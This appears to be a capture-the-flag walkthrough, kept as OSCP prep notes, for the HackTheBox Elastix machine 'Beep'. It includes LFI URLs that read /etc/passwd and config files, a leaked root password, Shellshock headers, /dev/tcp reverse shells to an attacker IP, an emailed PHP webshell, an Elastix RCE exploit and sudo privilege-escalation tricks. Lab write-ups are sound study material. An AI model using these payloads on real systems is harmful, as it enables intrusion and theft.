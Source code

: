 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
[Done](Done)

## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.7
```

### 🔍 Targeted Script Scan
```bash
nmap -sC -sV -p 22,25,80,110,111,143,443,745,993,995,3306,4190,4445,4559,5038,10000 -oA nmap/scriptstcp 10.10.10.7
```

### 🔍 Scan for SSL Protocols
```bash
sslscan 10.10.10.7
```

---

## 🌐 Web Enumeration

### 🔍 HTTPS Redirect from Port 80
- Access via: `https://10.10.10.7/`

### 🔍 Directory Bruteforce
```bash
dirsearch.py -u https://10.10.10.7/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e txt,php -t 50
```

> Notable: `/admin`, `/vtigercrm`, `/recordings`, `/configs`, `/mail`, `/panel`

---

[Elastix Exploit](https://github.com/A1vinSmith/FreePBX-2.10.0---Elastix-2.2.0---Remote-Code-Execution/blob/master/exploit.py)  -> change to python3

```
import urllib2 -> from urllib import request
```

```
change urllib2 on the bottom to request
```

use exploit

```bash
rlwrap nc -lvnp 4444
```

elevate priv

```bash
sudo nmap --interactive  
!sh
```

## 🗂️ Local File Inclusion (LFI)

### 🔍 Exploit LFI
```bash
curl "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action"
```

---

## 📥 Credential Collection

### 📁 Read Config for Passwords
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action
```

---

## ✉️ [SMTP](SMTP) User Discovery

### 📫 VRFY with Telnet
```bash
telnet 10.10.10.7 25
EHLO test
VRFY fanis
VRFY cyrus
```

---

## 🧑‍💻 Exploit Paths

---

## [Path #1] 💥 RCE via 18650.py (Elastix)

### 🔍 Identify Extension
```bash
svwar -m INVITE -e100-999 10.10.10.7
```

### 🛠️ Patch Python Script for TLSv1.0
```python
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
urllib.urlopen(url, context=ctx)
```

### ⚙️ Run Exploit
```bash
python2 18650.py
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #2] 🌐 [Webmin Login](HTTP.md)

### 🔑 Login
- URL: `https://10.10.10.7:10000`
- Creds: `root / jEhdIekWmdjE`

### 🧨 Reverse Shell via Scheduled Command
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"
```

### 🐚 Listener
```bash
nc -lnvp 443
```

---

## [Path #3] 🔐 [SSH](SSH) as root

```bash
ssh root@10.10.10.7
# Password: jEhdIekWmdjE
```

---

## [Path #4] ☠️ Shellshock via Webmin CGI

### 🧪 Proof of Concept
```http
User-Agent: () { :; }; ping -c 1 10.10.14.2
```

### 🐚 Reverse Shell Payload
```http
User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
```

### 🐚 Listener
```bash
nc -lnvp 8081
```

---

## [Path #5] 📧 Webshell Upload via Email + LFI

### 📤 Send PHP Shell via Email
```bash
swaks --to asterisk@localhost \
--from 0xdf@0xdf.htb \
--header "Subject: shell" \
--body '<?php system($_REQUEST["cmd"]); ?>' \
--server 10.10.10.7
```

### 🔍 Access Webshell via LFI
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

---

## 🛗 Privilege Escalation

### [1] 🚪 `nmap` Interactive Shell
```bash
sudo nmap --interactive
nmap> !bash
```

### [2] 📦 SUID Binary Trick via `chmod`
```bash
sudo chmod 4755 /bin/bash
bash -p
```
